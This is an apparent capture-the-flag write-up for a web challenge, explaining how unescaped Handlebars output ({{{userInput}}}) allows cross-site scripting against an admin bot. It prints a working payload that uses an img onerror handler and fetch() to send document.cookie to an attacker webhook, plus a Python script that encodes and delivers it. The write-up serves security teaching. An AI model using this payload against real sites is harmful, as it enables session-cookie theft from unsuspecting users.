 # 🏴 Can You Trick Me?

> **Category:** Web  
>
> **Points:** 30 pts  
>
> **Author:** Sebastian  
>
> **Description:** I built a website to help others create designs and ideas for their own webpages! Can you trick the administrator of this website to send you the flag?

---

## Purpose

The purpose of this challenge was to craft a request to an adminbot that redirects to a page with an XSS vulnerability, and use this XSS vulnerability to exfiltrate the cookie that the adminbot has set on it. In this XSS, you can make a request to a webhook, and since the site has httpOnly cookies disabled, you can leak the cookie with javascript using document.cookie, and make a request to a webhook you control with the value of the cookie.

## Exploitation

**Looking Through the File System**

For challenges like this, downloading the files and looking through them is imperative. if we look through the file system, the interesting routes are:

/generate

```js
app.post('/generate', (req, res) => {
    const userInput = req.body.input || '';
    const pageId = Date.now().toString();
    res.redirect(`/page/${pageId}?input=${encodeURIComponent(userInput)}`);
});
```

/page/:id

```js
app.get('/page/:id', (req, res) => {
    const pageId = req.params.id;
    const userInput = req.query.input || '';
    res.render('generated', { userInput, pageId });
});
```

/adminbot

```js
app.get('/adminbot', async (req, res) => {
    const targetUrl = req.query.url;

    console.log(`Admin bot visiting: ${targetUrl}`);

    try {
        const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--no-sandbox', '--disable-setuid-sandbox']
        });
        const page = await browser.newPage();

        await page.setCookie({
            name: 'flag',
            value: 'WSUCTF{f4k3_flag}',
            domain: 'waynestateuniversity-ctf24-handlebars.chals.io', // if running locally, replace with localhost or docker interface ip
            path: '/',
            httpOnly: false,
        });

        await page.goto(targetUrl, { waitUntil: 'networkidle2', timeout: 5000 });
        await browser.close();

        res.send('Admin bot has visited the page');
    } catch (err) {
        console.error('Admin bot error:', err);
        res.status(500).send('Error running admin bot');
    }
});
```

Straight away, we know that we have to exploit this because we see the cookie in the page.setCookie() command with the value of WSUCTF{f4k3_flag}.

And on the frontend:

/views/generated.hbs

```hbs
<body>
  <div class="container">
    <h1>Page ID: {{pageId}}</h1>
    <p>This page was generated based on your input:</p>
    <div class="input-display">
      {{{userInput}}}
    </div>
  </div>
</body>
```

In this page, we see {{{userInput}}}. This is dangerous because when using triple curly braces in handlebars, any javascript and html on the page is not escaped. So we can do html injection like this:

![html injection](./htmlinjection.png)

turns into this:

![html injection result](./htmlinjectionresult.png)

And this javascript injection:

![javascript injection](./jsinjection.png)

turns into this:

![javascript injection result](./jsinjectionresult.png)

So we have a way to get an XSS injection, now we have to trick the adminbot into visiting our webpages. The adminbot accepts a url to visit a website, so we can give it a url to visit a generated webpage that will trigger an XSS and exfiltrate their cookie. In this challenge, the generate endpoint won't be useful, only the /page/:id will be useful to render the vulnerable generated.hbs file with a userInput and pageId.

One tricky part of this that you have to be careful of when doing this is to url encode the payload that will go into the /page/:id and also the payload that goes into the adminbot endpoint, so as a result part of our payload will be double url encoded.

Another tricky part of this is that after trying with the normal
```js
<img src = "x" onerror = "fetch('<webhook_url>' + document.cookie)">
```
to exfiltrate the adminbot cookie. This didn't end up working. It turns out that when using headless browsers, sometimes its hard to trigger xss on browsers using just pure html. A better strategy is to use
a <script></script> tag that adds Javascript to the page. This ensures that the entire page gets loaded when the browser visits the url, the page will be populated with everything, and afterwards, the malicious img tag will be added to the page which will then cause the XSS to trigger.

We can accompish this by changing the payload to this:

```js
<script>document.body.innerHTML+='<img src="x" onerror="fetch(\'<webhook_url>?c='+document.cookie+'\')">'</script>
```

This will load javascript, then add the image to the page, which guarantees that our onerror function triggers.

Once we have this payload, we can put it into our python script to solve the challenge. The python script for this is located in the solve folder.

This is the initial payload that we need to get the adminbot to execute:

```py
'''<script>document.body.innerHTML+='<img src="x" onerror="fetch(\\'<webhook_url>?c='+document.cookie+'\\')">'</script>'''
```

Now, we have to send this payload to the adminbot. In order to do this, first we will construct a new url for the adminbot to visit which will include our /page/:id endpoint. To do this we will url encode our payload and add it to the input query parameter:

```py
payload = f'''
<script>document.body.innerHTML+='<img src="x" onerror="fetch(\\'{webhook_url}?c='+document.cookie+'\\')">'</script>
'''
encoded_input = quote(payload)
target_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/page/1337?input={encoded_input}"
```
Then, we have to make a request to the /adminbot endpoint, and deliver this payload to the url query parameter. As long as we url encode this target url again, and send it to the adminbot, the bot should visit our page, the onclick error should trigger, and we should get the bot's cookie sent to our webhook.

```py
encoded_target_url = quote(target_url)
adminbot_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/adminbot?url={encoded_target_url}"


print(f"Sending to: {adminbot_url}")
requests.get(adminbot_url)
```


## Solution

![Solution](./Solution.png)

![flag](./flag.png)

flag: ```WSUCTF{adm1nbot_exfiltration_FTW!!}```